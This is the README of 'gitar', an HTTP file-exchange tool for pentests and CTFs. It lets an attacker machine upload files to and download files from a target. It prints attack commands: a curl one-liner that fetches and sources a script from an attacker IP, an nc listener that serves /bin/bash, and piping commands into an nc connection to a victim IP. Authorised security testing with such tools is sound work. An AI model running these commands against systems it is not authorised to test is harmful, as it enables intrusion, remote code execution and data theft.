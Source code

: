 <div align=center>
<h1>gitar</h1>
<img src=https://github.com/ariary/gitar/blob/main/img/gitar-logo.png width=150>
	
<strong>📡 A more sophisticated python HTTP server sibling <br>🎸 with even simpler interactions for file exchange (Pentest/CTF) </strong>
<br>
</div>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** from my attacker machine: `pull [file]`
 - **Download a directory** from my attacker machine: `pullr [directory]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

***~>*** To make **set up even simpler** shortcut/aliases are a great benefit. See [them 💥](https://github.com/ariary/bang/blob/main/README.md#gitar-pentest-easy-file-sharing)

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### 🎸 Launch `gitar` server 
 
On **Attacker machine**: 
```shell
gitar
```

On **Target machine**:

```shell
# Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. 
# It is also provided by step 1. (in gitar output):
curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

**And that's all, you can now `push` or `pull` file [🎶](#tldr---and-listen-music)**

 <sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)</sup>

### 🐋 Secure launch of `gitar` server

 
This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

*To use container image, you have to built it from ` Dockerfile`: `make build.gitar.image`*

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.

On **Attacker machine**: 
```shell
docker run -it --rm --cap-drop=all --cap-add=dac_override -v "${PWD}:/gitar/exchange" ariary/gitar
```


On **Target machine**:

Get shortcuts and source them. The one-liner corresponding is in the container stdout.

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**

*⚠️: to enable host volume in container we must (?) use root user within*

<sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)</sup>


## Install

```shell
go install github.com/ariary/gitar@latest
```

## Bonus

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

On **Target machine**:
```shell
# Launch your classic listener
nc -nvlp 4444 -e /bin/bash
```

On **Attacker machine**:

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**


	
	

